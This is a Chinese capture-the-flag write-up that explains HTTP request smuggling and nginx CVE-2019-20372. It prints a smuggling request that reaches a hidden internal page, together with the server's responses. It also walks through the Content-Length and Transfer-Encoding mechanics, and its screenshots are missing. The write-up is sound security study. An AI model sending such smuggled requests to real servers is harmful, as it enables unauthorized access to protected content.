







# **海关警察训练平台**



查看一下源代码



这里可以看到当flag===1 的时候会导航到里面的url，也就是url/error，那我们访问一下看看



发现出现按302跳转了，跳到了当前这个路径，最后可以提示是nginx的服务器，猜测是不是服务器的版本cve漏洞

在开发者模式中看一下当前服务器版本



发现不是nginx的服务器而是apache的服务器，而且还没有版本号

我们返回去看一下原来的服务器版本



发现这时候是nginx/1.17.6的版本号

搜一下这个版本的cve，发现有一个CVE-2019-20372跟我们的漏洞有点像

https://www.cnblogs.com/null1433/p/12778026.html

## 漏洞简介

Nginx 1.17.7之前版本中 error_page 存在安全漏洞。攻击者可利用该漏洞读取未授权的Web页面。而题目中的flag在内网的地址应该就是我们未授权的web页面

## HTTP请求走私

HTTP请求走私攻击，顾名思义，就会像走私一样在一个HTTP请求包中夹带另一个或多个HTTP请求包，在前端看来是一个HTTP请求包，但是到了后端可能会被解析器分解开从而导致夹带的HTTP请求包也会被解析，最终可以导致未授权访问敏感数据或攻击其他用户。

说白了就是在一个包里面发两个请求包让后端进行解析去访问我们需要访问的web页面

### HTTP请求走私漏洞如何产生？

大多数HTTP请求走私漏洞的出现是因为HTTP规范提供了两种不同的方法来指定请求的结束位置：`Content-Length`标头和`Transfer-Encoding`标头。

该`Content-Length`头是直接的：它指定消息体的以字节为单位的长度。例如:

```html
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

该`Transfer-Encoding`首标可以被用于指定该消息体的用途分块编码。这意味着消息正文包含一个或多个数据块。每个块均由以字节为单位的块大小（以十六进制表示）组成，后跟换行符，然后是块内容。该消息以大小为零的块终止。例如

```php
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
q=smuggling
0
```

### HTTP请求走私类型

#### CL不为0的GET请求

前端代理服务器允许GET请求携带请求体，但后端服务器不允许GET请求携带请求体，则后端服务器会忽略掉GET请求中的`Content-Length`，不进行处理，从而导致请求走私。

我们可以向服务器发起以下请求

```
GET /a HTTP/1.1
Host: localhost
Content-Length: 56
GET /_hidden/index.html HTTP/1.1
Host: notlocalhost
```

我们看一下服务器是怎么处理的

```
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.17.6
Date: Fri, 06 Dec 2019 18:23:33 GMT
Content-Type: text/html
Content-Length: 145
Connection: keep-alive
Location: http://example.org
<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.17.6</center>
</body>
</html>
HTTP/1.1 200 OK
Server: nginx/1.17.6
Date: Fri, 06 Dec 2019 18:23:33 GMT
Content-Type: text/html
Content-Length: 22
Connection: keep-alive
This should be hidden!
```

前端服务器收到该请求，通过读取`Content-Length`，判断这是一个完整的请求，然后转发给后端服务器，而后端服务器收到后，因为它不对`Content-Length`进行处理，由于`Pipeline`的存在，它就认为这是收到了两个请求。

上面只讲了跟本道题有关的类型，其他的类型我直接引入一位师傅的文章了，方便以后随时打开看

[详细笔记+实验：HTTP请求走私 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/243652.html)

解题

直接用bp发包就行



不过我一开始没跑出来，后面发现少了两个\r\n,我们可以打开\n看看



只做出来这道题，环境复现的开放时间我刚好在上课，只能后面看看还有没有环境复现 的机会再返回来写这个了
